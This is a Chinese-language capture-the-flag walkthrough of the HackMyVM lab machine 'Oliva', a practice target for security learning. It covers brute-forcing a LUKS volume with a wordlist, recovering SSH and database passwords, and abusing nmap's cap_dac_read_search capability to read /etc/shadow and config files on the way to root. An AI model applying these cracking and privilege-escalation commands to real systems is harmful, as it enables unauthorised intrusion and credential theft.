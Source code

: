 # Oliva

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Oliva

[video](https://www.bilibili.com/video/BV11jQqYEEuf/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 发现 http://192.168.5.39/index.php 提示点击链接 http://192.168.5.39/oliva 获得 root 密码。file 查看文件属性发现是 oliva: LUKS encrypted file, ver 2, 使用 sha256 进行的加密, 需要进行解密。

进行文件分割:

```
dd  if=oliva of=oliva-drive-cut.dd bs=512 count=4097
```

进行爆破，但是没戏，发现 hashcat 14600 只支持 v1 版本的 LUKS 文件破解:

```
hashcat -m 14600 -a 0 oliva-drive-cut.dd /usr/share/wordlist/rockyou.txt
```

在找一下其他的破解工具，找到了这个可以破解 v2 版本的文件 bruteforce-luks L

```
bruteforce-luks -t 16 -f /usr/share/wordlists/rockyou.txt oliva -v 5
```

找到密码: bebita , 在使用 cryptsetup 挂载加密磁盘:

```
cryptsetup luksOpen oliva m
```

挂载到了 /dev/mapper/m 下 进行文件挂载：

```
mkdir m
sudo mount /dev/mapper/m m
```

进入 m 目录，发现密码文件：

```
cat mypass.txt
Yesthatsmypass!
```

尝试使用 oliva 用户登陆 ssh，先拿到 user flag:

```
oliva@oliva:~$ cat user.txt
HMVY0H8NgGJqbFzbgo0VMRm
```

发现 capabilities 程序:

```
oliva@oliva:/$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/nmap cap_dac_read_search=eip
/usr/bin/ping cap_net_raw=ep
```

利用 cap_dac_read_search 权限读取敏感信息：

```
/usr/bin/nmap -iL /etc/shadow

root:$y$j9T$mJZXSkk0PjMpjwgunTu3a.$xlW8pdbOdxHdqCatq072mj3qQ69To4Gy6WbRwSbY6S3:19542:0:99999:7:::
```

但是 john 没破解出来:

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt hash --pot=./pot
```

猜不出 root 目录中的 roo flag 的文件名读取不到。

在回头看看 html 目录中的 web 文件，都是 www-data 所属，读取一下看看会不会有重要信息 index.php

```
/usr/bin/nmap -iL /var/www/html/index.php

Hi oliva, Here the pass to obtain root: <?php $dbname = 'easy'; $dbuser = 'root'; $dbpass = 'Savingmypass'; $dbhost = 'localhost'; ?>
```

链接到 mysql，拿到 root 用户的密码:

```
MariaDB [easy]> select * from easy.logging;
+--------+------+--------------+
| id_log | uzer | pazz         |
+--------+------+--------------+
|      1 | root | OhItwasEasy! |
+--------+------+--------------+
```

su 切换到 root，拿到 root flag:

```
root@oliva:~# cat rutflag.txt
HMVnuTkm4MwFQNPmMJHRyW7
```
